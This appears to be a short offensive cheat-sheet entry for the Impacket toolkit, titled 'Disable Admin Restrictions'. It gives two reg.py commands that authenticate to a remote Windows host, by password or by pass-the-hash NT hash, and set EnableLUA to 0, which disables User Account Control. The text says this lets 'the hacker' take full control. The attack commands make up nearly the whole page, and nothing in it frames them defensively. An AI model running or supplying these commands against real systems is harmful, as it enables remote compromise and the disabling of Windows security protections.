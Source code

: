 # Impacket

## 01 - Disable Admin Restrictions

Disabling UAC that allows the hacker to take full control.

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0
```